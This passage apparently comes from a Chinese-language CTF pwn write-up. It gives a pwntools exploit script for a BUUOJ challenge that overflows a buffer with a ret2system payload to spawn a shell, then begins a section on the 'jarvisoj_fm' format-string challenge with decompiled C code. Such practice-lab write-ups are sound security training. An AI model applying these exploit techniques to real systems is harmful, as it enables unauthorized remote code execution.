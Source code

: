 ![alt text](image-18.png)
exp:
```python 
from pwn import *
from LibcSearcher import *
r=remote('node5.buuoj.cn',28995)
context(os = 'linux', arch = 'amd64', log_level = 'debug')
elf=ELF('./2')
r.recvuntil('password:')
r.sendline('administrator')
r.recvuntil('Exit\n:')
r.sendline(str(1))
main=0x08048722
system_adr=0x080484D0
sh_adr=0x080482ea
payload=b'a'*(0x48+4)+p32(system_adr)+p32(main)+p32(sh_adr)
r.sendline(payload)
#r.recvuntil('password:')
#r.sendline('administrator')
r.recvuntil('Exit\n:')
r.sendline(str(4))
r.interactive()
```

## jarvisoj_fm

>知识点：格式化字符串漏洞

![alt text](image-19.png)
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[80]; // [esp+2Ch] [ebp-5Ch] BYREF
  unsigned int v5; // [esp+7Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  be_nice_to_people();
  memset(buf, 0, sizeof(buf));
  read(0, buf, 0x50u);
  printf(buf);
  printf("%d!\n", x);
  if ( x == 4 )
  {
    puts("running sh...");
    system("/bin/sh");
  }
  return 0;
}
```